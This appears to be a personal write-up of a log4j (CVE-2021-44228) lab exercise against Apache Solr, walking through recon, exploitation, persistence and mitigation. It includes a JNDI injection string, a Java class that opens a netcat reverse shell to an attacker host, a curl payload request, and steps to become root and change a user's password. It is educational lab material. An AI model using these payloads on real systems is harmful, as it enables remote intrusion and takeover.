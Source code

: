 # Solar, exploiting log4j
## Exploring CVE-2021-44228

### Task 1 CVE-2021-44228 Introduction
On December 9th, 2021 the world was made aware of a new vulnerability identified as CVE-2021-44228, affecting the Java logging package `log4j` This vulnerability earned a severity score 10.0 (Most critical designation) and offers RCE (Remote Code Execution).

Today `log4j` version `2.15.0rc2` is available and patches this vulnerability. However, millions of things use this logging package as a dependency for their code. This means there is a very big attack surface.

### Task 2 Reconaissance
The target virtual machine contains the software that utilizes the vulnerable version of `log4j` package.

We run a `nmap` scan against the machine to find out what services and ports there are on this machine.

`nmap -sV -p- $IP`

### Task 3 Discovery
The target machine is running Apache Solr 8.11.0, one example of software that is known to include this vulnerable `log4j` package. For the sake of showcasing this vulenrability, the application runs on Java 1.8.0_181

Exploring the web interface at `http://$IP:8983` to get a feel for the application.

### Task 4 Proof of Concept
Note that the URL endpoint needs to be prefaced with the `solr/` prefix when viewing it from the web interface:

`http://$IP:8983/solr/admin/cores`

You also noticed that the `params` seems to be included in the log file. The log4j package works by parsing entires, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of the CVE. Other syntax might be in fact *executed* as it is entered into the log files.

Some examples of snytax include:
-   `${sys:os.name}`
-   `${sys:user.name}`
-   `${log4j:configParentLocation}`
-   `${ENV:PATH}`
-   `${ENV:HOSTNAME}`
-   `${java:version}`

The format of the usual syntax that takes advantage of this looks like so:

`${jndi:ldap://ATTACKERCONTROLLEDHOST}`

The syntax includes that the log4j will invoke functionality from "JNDI" (Java Naming and Directory Interface). Ultimately this can be used to access outside resources.

Notice the `ldap://` schema. This indicates that the target will reach out to the attacker endpoint via the LDAP protocol.

This syntax can be entered **ANYWHERE that has data logged by the application**

You can supply `params` to the `/solr/admin/cores` URL, and inject the syntax. You simply supply HTTP GET variables or parameters which will then begin to be parsed by log4j.

Other locations to inject the syntax:
- Input boxes, user and password login forms
- HTTP Headers such as `User-Agent`, `X-Forwarded-For`
- Any place for user-supplied data

![[Pasted image 20211213163136.png]]

![[Pasted image 20211213163105.png]]

### Task 5 Exploitation
The `netcat` listener caught the connection but it may have seen non-printable characters. We build upon this foundation to respond with a real LDAP handler.

We utilize an open-source and public utility to stage an "LDAP Referral Server". This will redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target.
1. `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server
2. LDAP Referral Server springboards the request to a secondary `http://attackerserver/resource`
3. The victim retrieves and executes the code present in `http://attackerserver/resource`

This means we need an HTTP server, which we could simply host with any of the following options (serving on port 8000)
- `python3 -m http.server`
- `php -S 0.0.0.0:8000`
- (or any other `busybox httpd` or formal web service you might like)

Run the `marshalsec` LDAP utility that is now listening on port 1389

We make the java code as the payload

```scheme
	public class Exploit{
		static {
			try {
				java.lang.Runtime.getRuntime().exec("nc -e /bin/bash $IP 9999")
			} catch (Exception e) {
				e.printStackTrace();
			}
		}
	}
```

Save this and compile it, we now get `Exploit.class`

We now host a python HTTP server on port 8000 for the redirection to go to and grab this java class file to execute.

`python -m http.server`

We then set up a netcat listener on port 9999 to capture the reverse shell from the victim machine.

The curl request now with the payload is as follows:

```scheme
	curl 'http://VICTIM_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER_IP:1389/Exploit\}'
```

This then makes the request to the victim machine which then goes to our local LDAP redirect server listening which then forwards it to the python HTTP sever that is listening and grabs the java exploit file and executes the netcat command and giving us a reverse shell.

### Task 6 Persistence
Now that we gained access to the machine via a reverse shell, it's now time to make some persistence. Earlier from the `nmap` scan, it showed that port 22 `ssh` was open. The reverse shell says we are user `solr`

To stabalize the shell, we can do the following:

- `python3 -c "import pty; pty.spawn('/bin/bash')"`
- Press `Ctrl+Z` to background the shell
- Press `Enter`
- On local host `stty raw -echo`
- Then `fg`, then press `Enter`
- Press `Enter` two more times
- On the reverse shell `export TERM=xterm`

We run `sudo -l` and see that the user `solr` can run everything without password as *sudo*

We can run `sudo bash` to become root and then `passwd solr` to change their password.

After this we can now ssh into the machine `ssh solr@$IP` with the new password we just changed it to

### Task 7 Detection


### Task 8 Bypasses
The sntax showed was the "typical" one for performing this attack. This syntax might be caught by web application firewalls or easily detected. Because this attack leverages `log4j`, the payload can ultimately access all of the same expansion, substituion, and temlating tricks that the package makes available. This means a threat actor could use any sort of tricks to hide, mask, or obfuscate the payload.

### Task 9 Mitigation
One option for mitigation is to modify the `solr.in.sh` file with a specific syntax.

The file is located at `/etc/default/solr.in.sh`

The Apache Solr website security page explains that you can add specific syntax to the `solr.in.sh` file:

`SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"`

Now no request in made to our LDAP redirect server, so then consequently the Exploit class is not grabbed and executed from the Python HTTP server listening.

### Task 10 Patching
At the time of this exercise, Apache Solr 8.11.1 has not yet been released with a formal patch for CVE-2021-44228. 

Where appropriate, please ensure you patch the `logging-log4j` package to version `2.15.0rc2` or higher.
